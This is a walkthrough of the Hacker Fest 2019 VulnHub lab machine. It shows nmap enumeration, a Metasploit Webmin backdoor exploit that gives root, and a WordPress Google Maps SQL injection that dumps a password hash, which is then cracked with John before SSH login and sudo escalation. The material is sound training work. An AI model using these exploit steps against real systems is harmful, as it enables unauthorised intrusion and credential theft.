 ```yaml
---
published: true
category: Vulnhub
title: Hack Fest
author: F3dai
image: https://imgur.com/P67U1JL.png
---
```


The machine was part of my workshop for Hacker Fest 2019 at Prague. Difficulty level of this VM is very “very easy”. There are two paths for exploit it. There are no intentional rabbit holes. There is a "[retracted]" injection (exploit is part of MSF). Recovered credentials (username + hash) can be cracked by John and rockyou.txt wordlist. Low priv shell can be gained through MSF exploit or trying the credentials against "[retracted]". Priv. esc. is simply done by "[retracted]".

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

### FTP

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

![ftp](https://imgur.com/HMUog0K.png)

Some simple enumeration and an understanding of back end web apps will get you the right information.

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)

Root access.

### Wordpress

Another attack vector is the Wordpress site on port 80.

![wordpress](https://imgur.com/QQEnpNS.png)

WPScan will be used to find any vulnerabilities and possible users on the website. Please note that you use a WPScan API Token from [here](https://wpvulndb.com) to view the vulnerable data.

<pre>wpscan --url http://192.168.56.112/ -e vp,u</pre>

![wpscan](https://imgur.com/RGq0tck.png)

After some research, the [Unauthenticated SQL Injection vulnerability](https://www.rapid7.com/db/modules/auxiliary/admin/http/wp_google_maps_sqli) seems like the best route to go down. There is a Metasploit module for this. 

Something else to note is the username 'webmaster' found on the Wordpress site. 

<pre>msfconsole
use auxiliary/admin/http/wp_google_maps_sqli
show options
set RHOSTS 192.168.56.112</pre>

![msfwp](https://imgur.com/0meG4gb.png)

The exploit has been correctly set up. Run the exploit.

<pre>exploit</pre>

![exploit](https://imgur.com/ppsBmh8.png)

A hash value has been returned with the correct username that was found before on the WPScan results.

<pre> 192.168.56.112:80 - Found webmaster $P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1 webmaster@none.local </pre>

Let's ask our friend John to crack it. Use rockyou.txt as the wordlist.

<pre>echo "$P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt</pre>

![john](https://imgur.com/anjD7Hz.png)

The password "kittykat1" has been returned.

Let's try connect via ssh:

<pre>ssh webmaster@192.168.56.112
kittykat1</pre>

![ssh](https://imgur.com/cR73wtu.png)

We are logged in as webmaster. 
Check the sudo privileges with the following command:

<pre>sudo -l</pre>

This user is basically already root so let's just change to root shell with the following:

<pre>sudo -i</pre>

And we are root.

![root](https://imgur.com/Xti6L5k.png)
